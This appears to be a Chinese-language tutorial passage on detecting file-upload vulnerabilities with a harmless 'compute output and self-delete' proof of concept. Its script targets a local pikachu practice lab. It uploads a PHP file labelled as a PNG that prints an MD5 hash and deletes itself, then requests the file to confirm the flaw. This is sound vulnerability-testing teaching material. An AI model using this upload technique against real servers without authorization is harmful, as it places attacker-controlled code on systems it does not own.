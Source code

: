   
## **文件上传**  
  
对于此类漏洞，需要思考的是如何在没有危害的情况下验证漏洞的存在，因此一般在可能的情况下会考虑**计算输出+自我删除**的形式。  
  
**案例：PHP**  
```
// 这里以 pikachu 靶场的文件上传为例
s = randstr(16)
// 上传
rsp, req = poc.HTTPEx(f`POST /vul/unsafeupload/clientcheck.php HTTP/1.1
Host: 127.0.0.1:8765
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Referer: http://172.27.214.38:8765/vul/unsafeupload/clientcheck.php
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzO5eB8A7KMQZG4Ml
Content-Length: 38747

------WebKitFormBoundaryzO5eB8A7KMQZG4Ml
Content-Disposition: form-data; name="uploadfile"; filename="abc.php"
Content-Type: image/png

<?php
echo md5("${s}");
unlink(__FILE__);
?>
------WebKitFormBoundaryzO5eB8A7KMQZG4Ml
Content-Disposition: form-data; name="submit"

开始上传
------WebKitFormBoundaryzO5eB8A7KMQZG4Ml--`)~
// 这里可以根据上传请求的响应来拿到文件上传的路径
body = rsp.GetBody()
uploadFilePath = ""
if "文件保存的路径为：" in body {
    uploadFilePath = body.Split("文件保存的路径为：")[1].Split("</p>")[0].Trim()
}

// 漏洞不存在
if uploadFilePath == "" {
    return 
}

// 访问上传的文件
rsp, req = poc.HTTPEx(f`GET /vul/unsafeupload/${uploadFilePath} HTTP/1.1
Host: 127.0.0.1:8765
`)~

body = rsp.GetBody()
if codec.Md5(s) in body {
    dump("存在漏洞")
}
```  
  